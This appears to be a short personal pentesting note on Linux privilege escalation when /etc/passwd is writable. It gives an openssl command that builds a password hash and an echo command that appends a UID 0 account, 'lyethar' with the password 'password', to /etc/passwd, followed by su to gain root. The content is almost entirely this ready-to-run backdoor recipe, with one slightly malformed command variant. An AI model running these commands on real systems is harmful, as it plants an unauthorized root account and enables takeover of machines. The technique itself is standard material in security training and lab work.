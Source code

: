 # Writable Passwd

![](../../../.gitbook/assets/2022-08-08\_14-53.png)

This is basically GGs.&#x20;

If we see this we can run the following command and then we able to switch users.&#x20;

```
#####GENERATE PASSWD LINE#####

openssl passwd -1 -salt password password 
Then copy that into this 

echo 'lyethar:$1$password$Da2mWXlxe6J7jtww12SNG/:0:0:lyethar:/root:/bin/bash' >> /etc/passwd


We could also do it like this 
openssl passwd -1 salt lyethar pass123
just copy it in the same way that i did but instead of password it will be pass123
```

Once we echo the following line we just simply `su lyethar` and input `password`.
